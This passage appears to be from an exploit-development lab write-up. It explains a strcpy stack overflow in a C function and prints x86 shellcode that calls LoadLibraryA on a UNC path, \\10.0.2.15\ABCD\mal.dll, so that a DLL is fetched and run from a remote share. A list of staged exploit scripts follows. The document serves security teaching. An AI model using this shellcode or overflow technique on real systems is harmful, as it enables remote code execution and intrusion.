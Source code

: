 ```c
void Function2(char* Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Within `Function2(char* input)` we copy the buffer that possibly contains 100 bytes, into a locally declared buffer that has 60 bytes of space allocated. As we use the [`strcpy(char * destination, const char * source)`](https://cplusplus.com/reference/cstring/strcpy/) function, this copies from the source (100 bytes) to the destination buffer (60 bytes) until a null terminator is detected in the source buffer.

### Shellcode
The resulting shellcode is shown below:
```s
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\10.0.2.15\ABCD\mal.dll reversed
push 0x6c616d5c
push 0x44434241
push 0x5c35312e
push 0x322e302e
push 0x30315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76ba12a0      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\10.0.2.15\ABCD\mal.dll")'
```

We first adjust the stack pointer that is stored in the `ESP` register: `sub esp,0x64`. This is done to prevent the setup of the function call, and any later calls made by LoadLibraryA from overwriting our shellcode. Although this is not too much of a concern here as once we finish with the LoadLibraryA call we are not too concerned with what happens in this thread.

We next zero out the `EBX` register, this is so we can push the NULL value stored in the `EBX` register to the stack to act as our *null terminator*.

We then push the UNC string in reverse order to the stack, followed by the `ESP` registers value as this now points to the start of the UNC string which is our single argument to the LoadLibraryA function.

Finally we put the address of the LoadLibrayA function as found by Arwin into the `ebx` register (This is arbitrary), and call the function.

## Test code
1. [exploit0.py](./SourceCode/exploit0.py): Sending 100 `A`s to crash the server.
2. [exploit1.py](./SourceCode/exploit1.py): Sending a cyclic pattern of chars to identify the offset that we need to inject to control EIP.
3. [exploit2.py](./SourceCode/exploit2.py): Sending 66 `A`s followed by 4 `B`s to verify the offset we discovered from the Cyclic Group.
4. [exploit3.py](./SourceCode/exploit3.py): Replacing the bytes at the offset discovered by exploit1.py with the address of an *JMP ESP* instruction.
5. [exploit4.py](./SourceCode/exploit4.py): Adding a short *JMP* instruction for jumping to the start of the buffer.
6. [exploit5.py](./SourceCode/exploit5.py): Adding the LoadLibraryA shellcode to the start of the buffer.
4. [shellcode.asm](SourceCode/shellcode.asm) : Shellcode of calling LoadLibraryA function.